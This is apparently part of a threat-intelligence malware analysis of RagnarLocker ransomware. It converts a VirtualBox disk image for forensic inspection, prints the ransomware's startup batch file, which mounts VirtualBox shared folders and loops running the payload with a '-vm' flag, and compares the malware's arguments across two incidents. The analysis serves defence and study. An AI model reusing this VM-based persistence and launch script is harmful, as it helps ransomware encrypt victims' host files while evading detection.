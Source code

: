 <h4>Now, we need to turn the VDI file which content the volume of the VM to an image of the volume IMG for to do a forensic introspection of the VM. For doing it, we use VBoxManage tool on Virtualbox folder for converting it in cloning the disk.</h4>

```bat
>VBoxManage.exe clonehd ".\filD45DC43C44044930A5265DB22D05BF15.vdi" ".\filD45DC43C44044930A5265DB22D05BF15.img
.img" --format raw
0%...10%...20%...30%...40%...50%...60%...70%...80%...90%...100%
Clone medium created in format 'raw'. UUID: 9f347ed8-3f5f-46f0-b275-fd9c4120f09d
```

<h4>We can now inspect with a reader of raw image the content of the disk, by the way, on the logic that the VM is automatically executed, we need to found the persistence on the VM that execute the payload when starting the session in the VM. This use as persistence way the startup folders for run it with a bat file. This mount all the shared links previously done by the configuration of the VM and push as link to the virtual links on the VM. Once this did execute the ransomware with the VM argument which triggers a configuration of actions, perform by the ransomware for a special use in a VM environment vector.</h4>

```bat
@echo off
ping -n 11 127.0.0.1
net use E: \\VBOXSVR\1
for %%d in (2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 20 21 22 23 24 25 26 27 28 29 30 31 32 33) do (if exist \\VBOXSVR\%%d net use * \\VBOXSVR\%%d)
:a
ping -n 3 127.0.0.1
C:\vrun.exe -vm
goto a
```

<h4>Ragnarlocker is organized on an execution thread of a few sub-functions via entrypoint to the end. We can compare the structure between to the incident between April 2020 and July 2020, that the same structure with some splitted code to compact to singles blocks and an additional loop for one argument.</h4>

<center><img src="https://raw.githubusercontent.com/StrangerealIntel/CyberThreatIntel/master/Additional%20Analysis/RagnarLocker/2020-08-08/Pictures/EntryRagnar.png"></img></center>

<h4>This has the same argument for delete the shadow copy, list the files, enforce it and the VM mod, this only change some strings like the title of the ransom note, arguments and internal id of the group.</h4>

<center><img src="https://raw.githubusercontent.com/StrangerealIntel/CyberThreatIntel/master/Additional%20Analysis/RagnarLocker/2020-08-08/Pictures/entry0.png"></img></center>

<center><table>
<tr>
    <th>Energias de Portugal</th>
    <th>Carlson Wagonlit Travel</th>
</tr>
<tr>
    <th>-backup</th>
    <th>-backup</th>
 </tr>
<tr>
    <th>-list</th>
    <th>-list</th>
 </tr>
 <tr>
    <th>-force</th>
    <th>-force</th>
 </tr>
 <tr>
    <th>-vm</th>
    <th>-vmbackup</th>
 </tr>
</table></center>